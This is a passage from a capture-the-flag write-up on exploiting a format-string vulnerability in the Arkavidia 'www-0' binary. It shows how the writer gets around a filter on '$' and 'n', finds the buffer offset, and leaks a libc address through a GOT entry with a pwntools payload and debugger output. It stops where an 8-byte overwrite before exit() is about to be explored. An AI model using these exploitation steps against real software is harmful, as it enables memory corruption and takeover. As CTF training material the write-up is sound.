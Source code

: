 The challenge is quite simple and the vulnerability is very obvious, but it'll be somewhat tricky to exploit.

## Leaking Libc
The challenge imposes a constraint on the string you're allowed to input. The string must be at most 32 characters long and mustn't contain `$` or `n`. This poses some difficulty as you usually use`$` to specify the offset when trying to leak values off the stack. To get around this, we can use multiple format specifiers to simulate leaking an offset. For example, to leak `%5$p`, we can send in `%p%p%p%p%p` and the 5th `%p` will correspond to the value on the stack at offset 5.

With that out of the way, first things first we need to find the offset of our input buffer, as standard for most format string vulnerabilities.
```bash
$ ./chall_patched
AAAAAAAA%p%p%p%p%p%p
AAAAAAAA00x140x5d0x7ffd12e35bb000x4141414141414141
Where:
```
We find that our buffer sits at offset 6. With this in mind, we can craft the final format string. As mentioned before, we'll send in a GOT entry along with a `%s` format at the right offset to leak a libc address.
```python{linenos=true}
payload = flat(
    b'%p%p%p%p%p%p%p%p|%s'.ljust(24, b'.'),
    exe.got['putchar'],
)
io.sendline(payload)
io.recvuntil(b'|')
libc_leak = u64(io.recv(6).ljust(8, b'\0'))
```
```bash
[+] Starting local process '/home/nouxia/ctf/arkavidia/pwn/www-0/chall_patched': pid 186020
[+] hex(libc_leak) = '0x70383b2f8418'
[*] Switching to interactive mode
.....\xa0?@
Where: $
```
```
pwndbg> vmmap 0x7914c2902418
LEGEND: STACK | HEAP | CODE | DATA | WX | RODATA
             Start                End Perm     Size Offset File
    0x7914c28a0000     0x7914c28b4000 r--p    14000      0 /home/nouxia/ctf/arkavidia/pwn/www-0/ld-musl-x86_64.so.1
►   0x7914c28b4000     0x7914c290b000 r-xp    57000  14000 /home/nouxia/ctf/arkavidia/pwn/www-0/ld-musl-x86_64.so.1 +0x4e418
    0x7914c290b000     0x7914c2941000 r--p    36000  6b000 /home/nouxia/ctf/arkavidia/pwn/www-0/ld-musl-x86_64.so.1
pwndbg> distance 0x7914c2902418 0x7914c28a0000
0x7914c2902418->0x7914c28a0000 is -0x62418 bytes (-0xc483 words)
pwndbg>
```
Awesome, we now have obtained the libc base address. Moving on, let's explore what we can do with an 8-byte overwrite. Notice how after the program writes our 8 bytes, it immediately calls `exit(0)`. So let's start there. Let's explore what actually happens when a program calls `exit`.
